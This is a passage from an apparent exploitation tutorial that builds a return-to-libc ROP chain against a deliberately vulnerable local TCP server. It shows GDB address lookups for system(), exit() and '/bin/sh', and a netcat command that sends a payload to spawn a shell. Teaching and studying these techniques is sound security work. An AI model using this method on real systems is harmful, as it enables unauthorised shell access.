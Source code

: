 These commands find and save all potential gadgets to text files for easy reference.

### Step 3: Locating Key Addresses

For our ROP chain, we need to find the addresses of key functions and strings:

```bash
# Launch GDB with the program
gdb -q tcpserver-nonexecstack

# Set a breakpoint at main and run the program
(gdb) b main
(gdb) r

# Find the address of the system() function
(gdb) p system
$1 = {int (const char *)} 0xf7e12420 <system>

# Find a string "/bin/sh" in memory
(gdb) find &system,+999999,"/bin/sh"
0xf7f5b352
1 pattern found.

# Find the address of the exit() function
(gdb) p exit
$2 = {void (int)} 0xf7e04f80 <exit>
```

These addresses will vary on your system, but they give us the building blocks for our ROP chain.

### Step 4: Building the ROP Chain

Our ROP chain consists of three crucial elements:
1. Address of the `system()` function
2. Address of the `exit()` function (where to go after `system()` finishes)
3. Address of the string "/bin/sh" (the parameter for `system()`)

When the vulnerable function's return address is overwritten with the address of `system()`, the program will execute `system("/bin/sh")`, giving us a shell. After the shell terminates, execution continues to `exit()` for clean termination.

### Step 5: Executing the ROP Attack

To execute our ROP attack:

```bash
# Start the vulnerable server
./tcpserver-nonexecstack 40000

# In another terminal, send our payload
cat rop_payload.bin | nc localhost 40000
```

If successful, the program will execute `system("/bin/sh")` and provide us with a shell.
